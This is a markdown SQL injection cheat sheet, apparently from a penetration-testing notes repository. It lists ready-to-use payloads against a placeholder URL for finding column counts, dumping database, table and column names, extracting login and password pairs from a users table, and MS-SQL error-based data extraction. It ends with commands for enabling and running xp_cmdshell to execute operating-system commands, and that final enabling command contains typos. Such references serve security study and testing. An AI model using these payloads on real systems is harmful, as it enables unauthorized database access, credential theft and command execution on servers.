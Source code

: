 # SQL Injection

## SQL injection

### Introduction

It is an attack in which an attacker inserts untrusted data in the application that results in revealing sensitive information of the database.

SQL Injection (SQLi) is a code injection attack where an attacker manipulates the data being sent to the server to execute malicious SQL statements to control a web application’s database server, thereby accessing, modifying and deleting unauthorized data. This attack is mainly used to take over database servers.

* In-band SQLi (Classic SQLi)
* Error-based SQLi
* Union-based SQLi
* Inferential SQLi (Blind SQLi)
* Boolean-based (content-based) Blind SQLi
* Time-based Blind SQLi
* Out-of-band SQLi

### Where to find

Everywhere

### How to exploit

## SQLI tricks

### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example: `http://vulnerable-website.com/Less-1/?id=5'`

#### Fuzzing

Sorting columns to find maximum column

`http://vulnerable-website.com/Less-1/?id=-1 order by 1`

`http://vulnerable-website.com/Less-1/?id=-1 order by 2`

`http://vulnerable-website.com/Less-1/?id=-1 order by 3`

(until it stop returning errors)



#### Finding what column is injectable

**mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql** `http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

one of the columns will be printed with the respective number



**Finding version**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, version()` **mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s

**Finding database name**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**

**Finding usernames logged in**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**

**Finding databases**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**

**Finding table names from a database**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**

**Finding column names from a table**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

**Concatenate**

Example:

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login from users;` `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**

#### Error Based SQLI (USUALLY MS-SQL)

**Current user**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`

**DBMS version**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`

**Database name**

`http://vulnerable-website.com/Less-1/?id=-1 or db_name(0)=0 --`

**Tables from a database**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`



`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`

**Columns within a table**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation after each iteration a new column name will be found, make sure add it to \*\* previously found column name \*\* separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`

**Actual data**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to \*\* previously found column name \*\* separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`

**Shell commands**

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

**Enabling shell commands**

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`
